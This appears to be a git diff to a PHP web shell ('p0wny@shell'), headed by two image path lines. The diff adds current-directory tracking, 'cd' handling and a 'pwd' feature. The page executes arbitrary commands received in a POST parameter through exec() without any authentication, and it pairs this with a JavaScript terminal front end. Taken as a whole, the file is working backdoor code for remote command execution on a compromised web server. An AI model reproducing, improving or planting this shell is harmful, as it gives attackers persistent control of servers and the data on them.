

cd, cwd & pwd

diff --git a/shell.php b/shell.php
@@ -1,10 +1,44 @@
 <?php
 
-if ($_GET["feature"] == "shell") {
-    exec($_POST["command"], $stdout);
-    foreach($stdout as $line) {
-        echo $line . "\n";
+function featureShell($cmd, $cwd) {
+    $stdout = array();
+
+    if (preg_match("/^\s*cd\s*$/", $cmd)) {
+        // pass
+    } elseif (preg_match("/^\s*cd\s+(.+)\s*$/", $cmd)) {
+        chdir($cwd);
+        preg_match("/^\s*cd\s+(.+)\s*$/", $cmd, $match);
+        chdir($match[1]);
+    } else {
+        chdir($cwd);
+        exec($cmd, $stdout);
     }
+
+    return array(
+        "stdout" => $stdout,
+        "cwd" => getcwd()
+    );
+}
+
+function featurePwd() {
+    return array("cwd" => getcwd());
+}
+
+if (isset($_GET["feature"])) {
+
+    $response = NULL;
+
+    switch ($_GET["feature"]) {
+        case "shell":
+            $response = featureShell($_POST["cmd"], $_POST["cwd"]);
+            break;
+        case "pwd":
+            $response = featurePwd();
+            break;
+    }
+
+    header("Content-Type: application/json");
+    echo json_encode($response);
     die();
 }
 
@@ -51,6 +85,10 @@ if ($_GET["feature"] == "shell") {
                 color: #75DF0B;
             }
 
+            .shell-prompt > span {
+                color: #1BC9E7;
+            }
+
             #shell-input {
                 display: flex;
                 box-shadow: 0 -1px 0 rgba(0, 0, 0, .3);
@@ -63,8 +101,6 @@ if ($_GET["feature"] == "shell") {
                 padding: 0 5px;
                 height: 30px;
                 line-height: 30px;
-                font-weight: bold;
-                color: #75DF0B;
             }
 
             #shell-input > input {
@@ -83,8 +119,52 @@ if ($_GET["feature"] == "shell") {
         <script src="https://code.jquery.com/jquery-3.1.1.min.js" integrity="sha256-hVVnYaiADRTO2PzUGmuLJr8BLUSjGIZsDYGmIJLv2b8=" crossorigin="anonymous"></script>
 
         <script>
-            function execCmd(command) {
-                return $.post("?feature=shell", {command: command}, "text");
+            var CWD = null;
+
+            function featureShell(command) {
+                var eShellContent = document.getElementById("shell-content");
+
+                function _insertCommand(command) {
+                    eShellContent.innerHTML += "\n\n";
+                    eShellContent.innerHTML += `<span class=\"shell-prompt\">${genPrompt(CWD)}</span> `;
+                    eShellContent.innerHTML += escapeHtml(command);
+                    eShellContent.innerHTML += "\n";
+                    eShellContent.scrollTop = eShellContent.scrollHeight;
+                }
+
+                function _insertStdout(stdout) {
+                    eShellContent.innerHTML += escapeHtml(stdout);
+                    eShellContent.scrollTop = eShellContent.scrollHeight;
+                }
+
+                _insertCommand(command);
+                return $.post("?feature=shell", {cmd: command, cwd: CWD}, "json")
+                    .then(response => _insertStdout(response.stdout.join("\n")) || response)
+                    .then(response => updateCwd(response.cwd) || response)
+                    .fail(error => _insertStdout("AJAX ERROR: " + JSON.stringify(error)));
+            }
+
+            function genPrompt(cwd) {
+                cwd = cwd || "~";
+                var shortCwd = cwd;
+                if (cwd.split("/").length > 3) {
+                    var splittedCwd = cwd.split("/");
+                    shortCwd = `…/${splittedCwd[splittedCwd.length-2]}/${splittedCwd[splittedCwd.length-1]}`;
+                }
+                return `p0wny@shell:<span title="${cwd}">${shortCwd}</span>#`
+            }
+
+            function updateCwd(cwd) {
+                if (cwd) {
+                    CWD = cwd;
+                    _updatePrompt();
+                    return;
+                }
+                return $.post("?feature=pwd", {}, "json")
+                    .then(response => CWD = (response.cwd) || response)
+                    .then(response => _updatePrompt() || response)
+                    .fail(error => console.error(error));
+
             }
 
             function escapeHtml(string) {
@@ -94,32 +174,22 @@ if ($_GET["feature"] == "shell") {
                     .replace(/>/g, "&gt;");
             }
 
-            function insertCommand(command) {
-                var eShellContent = document.getElementById("shell-content");
-                eShellContent.innerHTML += "\n";
-                eShellContent.innerHTML += "<span class=\"shell-prompt\">p0wny@shell:~#</span> ";
-                eShellContent.innerHTML += escapeHtml(command);
-                eShellContent.innerHTML += "\n";
-                eShellContent.scrollTop = eShellContent.scrollHeight;
-            }
-
-            function insertStdout(stdout) {
-                var eShellContent = document.getElementById("shell-content");
-                eShellContent.innerHTML += escapeHtml(stdout);
-                eShellContent.innerHTML += "\n";
-                eShellContent.scrollTop = eShellContent.scrollHeight;
+            function _updatePrompt() {
+                var eShellPrompt = document.getElementById("shell-prompt");
+                eShellPrompt.innerHTML = genPrompt(CWD);
             }
 
             function _onShellCmdKeyDown(event) {
                 var eShellCmdInput = document.getElementById("shell-cmd");
                 if (event.key == "Enter") {
-                    insertCommand(eShellCmdInput.value);
-                    execCmd(eShellCmdInput.value)
-                        .then(insertStdout)
-                        .fail(error => insertStdout("AJAX ERROR: " + JSON.stringify(error)));
+                    featureShell(eShellCmdInput.value);
                     eShellCmdInput.value = "";
                 }
             }
+
+            window.onload = function() {
+                updateCwd();
+            };
         </script>
     </head>
 
@@ -136,7 +206,7 @@ if ($_GET["feature"] == "shell") {
                 </div>
             </pre>
             <div id="shell-input">
-                <label for="shell-cmd">p0wny@shell:~#</label>
+                <label for="shell-cmd" id="shell-prompt" class="shell-prompt">???</label>
                 <input id="shell-cmd" name="cmd" onkeydown="_onShellCmdKeyDown(event)"/>
             </div>
         </div>
